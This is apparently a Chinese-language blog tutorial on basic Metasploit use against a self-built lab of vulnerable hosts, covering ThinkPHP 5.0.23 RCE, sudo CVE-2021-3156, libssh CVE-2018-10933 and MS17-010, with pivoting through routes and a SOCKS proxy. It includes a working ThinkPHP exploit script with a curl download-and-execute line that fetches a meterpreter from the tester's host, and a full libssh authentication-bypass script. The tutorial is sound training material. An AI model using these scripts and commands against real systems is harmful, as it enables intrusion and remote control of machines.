

## Metasploit的基本使用

Time: 2022.11.17  
Tags: 渗透  


### 0x00 前言

在我日常的工作中使用 Metasploit 的场景并不多，最近在搭建几个漏洞靶场环境，正巧借此机会，使用 Metasploit 对漏洞靶场环境进行渗透攻击测试，从而熟悉 Metasploit 的基本使用。

测试主机环境配置
```
Ubuntu 20.04 x64
Metasploit 6.2.27-dev-
Python3
Nmap 7.80
proxychains4 4.14
```

### 0x01 靶场环境配置
我们在 PVE 中使用以下 4 个漏洞构建靶场环境：

* MS17-010 永恒之蓝
* ThinkPHP 5.0.23 RCE
* CVE-2021-3156 sudo本地提权
* CVE-2018-10933 libssh认证绕过

**1.ThinkPHP服务**  
在 PVE 中配置一台 ubuntu 主机，两张网卡分别为：`10.0.25.211/24(外网) && 192.168.1.2/24(内网)`；

随后使用 vulhub 搭建 `ThinkPHP 5.0.23 RCE`(https://github.com/vulhub/vulhub/tree/master/thinkphp/5.0.23-rce)。

随后在容器内，我们配置 `CVE-2021-3156 sudo本地提权` 漏洞环境(关键命令如下)：
```
# wget "https://www.sudo.ws/dist/sudo-1.8.30.tar.gz"
# tar -zxf sudo-1.8.30.tar.gz
# cd sudo-1.8.30
# ./configure
# make && make install
```

**2.libssh服务**  
在 PVE 中配置一台 ubuntu 主机，该主机只有内网地址 `192.168.1.3/24`；

使用 vulhub 搭建 `CVE-2018-10933 libssh认证绕过`(https://github.com/vulhub/vulhub/tree/master/libssh/CVE-2018-10933)。

**3.永恒之蓝**  
在 PVE 中配置一台 windows7 x64 sp1 主机，该主机只有内网地址 `192.168.1.4/24`；

关闭 windows 防火墙，即可完成 MS17-010 的配置。

**4.网络拓扑**  

最后我们的测试主机以 `10.0.25.249` 接入该靶场网络，整体网络拓扑图如下：
<div align="center">

</br>[1.靶场网络拓扑图]
</div>


### 0x02 边界渗透
我们在测试主机上配置好 metasploit 以及常用的工具，下面就开始进行渗透测试。

首先使用 nmap 扫描 `10.0.25.0/24` 段，找到目标以及 web 服务 `http://10.0.25.211:8080`，访问后发现为 `ThinkPHP 5`：
<div align="center">

</br>[2.thinkphp web服务]
</div>

使用 `search` 命令搜索 metasploit 中是否有相关的 exploit，并可以使用 `info` 命令查看详细信息：
<div align="center">

</br>[3.msf thinkphp exploit]
</div>

使用 `use` 命令使用指定的 exploit 模块，并使用 `options` 命令查看该模块需要哪些参数：
<div align="center">

</br>[4.使用thinkphp exploit模块]
</div>

其中 `Required=yes` 为必填项，最常用的几个配置项如下：
```
RHOST: 目标主机地址
RPORT: 目标服务端口
LHOST: 接收shell的本地监听地址
```

按照 https://github.com/vulhub/vulhub/tree/master/thinkphp/5.0.23-rce 中的 PoC，我们通过 `set` 命令设置参数如下：
<div align="center">

</br>[5.设置thinkphp模块参数]
</div>

使用 `exploit` 或 `run` 执行模块，进行攻击并获得 meterpreter shell，执行 `getuid` 查看当前用户：
<div align="center">

</br>[6.获得thinkphp权限]
</div>

`www-data` 权限比较小，不利于后续渗透，我们需要进行提权操作，这里我们使用 `CVE-2021-3156` 进行提权操作(实际场景下需要进行信息收集，寻找可以提权的途径)；首先在 meterpreter 中使用 `background` 将当前会话置于后台，切换为 metasploit 控制台，搜索 `CVE-2021-3156` 并进行加载：
<div align="center">

</br>[7.加载CVE-2021-3156]
</div>

`CVE-2021-3156` 是个本地提权漏洞，在 metasploit 以 `session` 的方式将其作用于指定的目标上(使用 `session` 命令可以看到我们刚才获取到的 shell)；设置参数并执行：
<div align="center">

</br>[8.尝试CVE-2021-3156提权]
</div>

如果提权成功的话，会生成新的 meterpreter 返连回来；但是我们的环境下使用的是 `Debian9 + sudo1.8.30`，在 metasploit 中使用 `show targets` 查看该 exploit 的适配情况，没有适配所以提权失败了。
<div align="center">

</br>[9.CVE-2021-3156适配情况]
</div>

我们可以尝试找找 `CVE-2021-3156` 漏洞针对 `Debian9 + sudo1.8.30` 的利用，在本地交叉编译后，通过 meterpreter 上传至目标主机，提权后再运行新的 meterpreter。这里不进行额外演示。

### 0x03 第三方Exploit的边界渗透
metasploit 虽然提供了大量的 exploit，但是在实际场景下也难完整的支撑我们的渗透测试，通常我们还需要用到第三方 exploit。

这里我们使用 `ThinkPHP 5.0.23 RCE` python 的 exploit 进行渗透测试，示例第三方 exploit 和 metasploit 的联动。

首先使用 `msfvenom` 生成对应的 payload：
<div align="center">

</br>[10.msfvenom生成meterpreter]
</div>

>`linux/x64/meterpreter/reverse_tcp` 和 `linux/x64/meterpreter_reverse_tcp` 的区别在于前者是分阶段装载的，后者是完整的 meterpreter。

这里我们启动 http 服务，用于利用成功后下载 meterpreter 执行：
```
$ ls -lah
-rw-rw-r-- 1 ubuntu ubuntu 250 Nov 18 08:55 mt
$ python3 -m http.server 7777
```

我们编写的 python exploit 如下：
```
#!/usr/bin/python3
#coding=utf-8

import requests

if __name__ == "__main__":
    url = "http://10.0.25.211:8080/index.php?s=captcha"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    
    cmd = "curl 10.0.25.249:7777/mt -o mt; chmod 777 mt; ./mt"
    data = "_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=%s" % cmd
    resp = requests.post(url, headers=headers, data=data, timeout=10)
    print(resp.status_code)
    print(resp.text[:512])
```

一切准备就绪后，在 metasploit 中选择 `exploit/multi/handler` 模块，并配置对应的 payload，随后使用 `exploit/run` 启动该模块：
<div align="center">

</br>[11.启动handler模块]
</div>

然后我们运行 python exploit，他将利用漏洞从我们 http 服务下载 meterpreter 并进行执行，最终在 metasploit 我们可以接收到反弹回来的 shell；后续便可使用 metasploit 平台进行内网渗透：
<div align="center">

</br>[12.通过第三方exploit联动获得shell]
</div>


### 0x04 内网路由和代理
在我们获取到 `ThinkPHP 5.0.23 RCE` 这台服务器的权限后，我们要以这台服务器作为跳板进行内网渗透。

metasploit 提供了路由功能，使用 `route` 命令创建访问内网的通信链路：
<div align="center">

</br>[13.添加内网网段路由]
</div>

随后在 metasploit 工具内，我们访问 `192.168.1.0/24` 的目标，将由路由功能自动转发至内网中。

我们使用 metasploit 的 `auxiliary/scanner/portscan/tcp` 扫描功能对内网主机进行扫描：
<div align="center">

</br>[14.scanner端口扫描]
</div>

metasploit 提供的内网渗透工具很丰富，但同样无法完整覆盖我们的渗透测试，我们可以使用 metasploit 提供的代理功能，将路由功能以代理的方式提供给第三方工具。

使用 `auxiliary/server/socks_proxy` 开启 socks 服务：
<div align="center">

</br>[15.开启代理功能]
</div>

随后我们在 proxychains4 中配置 socks 代理地址，使用 nmap 工具扫描主机如下：
<div align="center">

</br>[16.nmap端口扫描]
</div>

>需要注意 nmap 通过代理扫描时，就不能使用 ping 判断主机存活以及 syn 扫描等方式了，因为代理工作在传输层。

其他工具同理。

### 0x05 内网渗透
上一步我们配置好了路由并扫描到了内网主机，这里我们对内网主机进行渗透测试：
```
192.168.1.3:2222 libssh
192.168.1.4:445 MS17-010
```

**libssh**  
这个漏洞我们使用第三方的 exploit 来进行攻击，如下：
```
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048


def execute(hostname, port, command):
    sock = socket.socket()
    try:
        sock.connect((hostname, int(port)))

        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

        client = transport.open_session(timeout=10)
        client.exec_command(command)

        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()
    except paramiko.SSHException as e:
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None


if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))
```

通过代理对目标发起攻击：
<div align="center">

</br>[17.libssh exploit攻击]
</div>

**MS17-010**  
metasploit 提供了 MS17-010 的利用，我们直接配置使用即可；需要注意由于这台主机不出网，他只在 `192.168.1.0/24` 段内，无法返连到我们的测试主机 `10.0.25.249`，所以需要配置 `bind shell`：
<div align="center">

</br>[18.ms17-010 exploit攻击]
</div>

由于 MS17-010 在路由模式下的兼容问题，我们攻击后可以在 log 中发现攻击成功了，但没有成功获得 shell：
<div align="center">

</br>[19.ms17-010攻击结果]
</div>

>通常在实际场景下 MS17-010 可出网，在公网配置 metasploit 即可解决这个问题


### 0x06 References
https://github.com/rapid7/metasploit-framework  
https://github.com/vulhub/vulhub  